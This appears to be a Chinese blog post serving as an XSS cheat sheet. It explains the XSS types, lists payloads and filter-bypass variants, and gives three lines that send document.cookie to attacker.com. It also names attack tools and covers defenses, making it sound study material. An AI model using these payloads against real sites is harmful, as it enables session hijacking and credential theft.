 ```yaml
---
title: xss注入备忘录
author: ak
description: "xss注入备忘录"
pubDate: 2025-05-08
tags: ["安全", "xss", "渗透"]
---
```


# XSS注入备忘录

## 什么是XSS？

XSS（跨站脚本攻击）是一种常见的web安全漏洞，攻击者通过在网页中注入恶意脚本，使之在用户的浏览器上运行。这些脚本能够读取cookie、session tokens、或其他敏感信息。

## XSS的类型

1. **反射型XSS**
   - 非持久化，需要用户点击特制的链接
   - payload通常在URL参数中

2. **存储型XSS**
   - 恶意代码存储在目标服务器中
   - 受害者浏览页面时触发
   
3. **DOM型XSS**
   - 发生在客户端JavaScript执行过程中
   - 不涉及服务器端代码

## 常用XSS Payload合集

### 基础测试
```javascript
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
<script>alert(document.domain)</script>
```

### 图片标签XSS
```javascript
<img src="javascript:alert('XSS')">
<img src=x onerror="alert('XSS')">
<img src=x oneonerrorrror=alert(1)>
```

### 事件处理器
```javascript
<body onload="alert('XSS')">
<input type="text" onmouseover="alert('XSS')">
<div onmouseover="alert('XSS')">
```

### 绕过过滤器
```javascript
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<script>al\u0065rt('XSS')</script>
<img src=x onerror="&#97;lert('XSS')">
```

### SVG XSS
```javascript
<svg/onload=alert('XSS')>
<svg><script>alert('XSS')</script></svg>
```

### 高级Payload
```javascript
<script>fetch('http://attacker.com/'+document.cookie)</script>
<script>new Image().src='http://attacker.com/'+document.cookie</script>
<script>window.location='http://attacker.com?cookie='+document.cookie</script>
```

## 常用XSS Fuzzing工具

### 1. XSStrike
- 功能：自动化XSS检测和利用
- 特点：
  - 支持DOM XSS检测
  - 智能payload生成
  - WAF绕过技术
- 安装：`pip install xsstrike`

### 2. XSS Hunter
- 功能：高级XSS漏洞检测平台
- 特点：
  - 自动收集截图
  - 获取DOM快照
  - 支持盲XSS检测

### 3. Burp Suite - Active Scanner
- 功能：专业的Web应用安全测试
- 特点：
  - 自动化扫描
  - 详细报告生成
  - 自定义payload支持

### 4. BeEF (Browser Exploitation Framework)
- 功能：浏览器漏洞利用框架
- 特点：
  - 实时hook管理
  - 社会工程学模块
  - 详细的命令控制界面

## XSS防御措施

1. **输入验证**
   - 白名单验证
   - 特殊字符过滤

2. **输出编码**
   - HTML编码
   - JavaScript编码
   - URL编码

3. **安全Headers**
   - Content-Security-Policy (CSP)
   - X-XSS-Protection
   - X-Content-Type-Options

4. **Cookie安全**
   - HttpOnly标记
   - Secure标记
   - SameSite属性

## 实用工具和资源

1. **在线XSS测试平台**
   - XSS Game (Google)
   - PortSwigger Web Security Academy
   - OWASP Juice Shop

2. **XSS Payload数据库**
   - PayloadsAllTheThings
   - XSS Filter Evasion Cheat Sheet
   - HTML5 Security Cheatsheet

## 总结

XSS漏洞虽然是一个古老的安全问题，但至今仍然广泛存在于Web应用中。了解各种XSS攻击方式和防御措施对于开发安全的Web应用至关重要。定期更新安全知识，使用现代的安全框架和最佳实践，可以有效降低XSS风险。 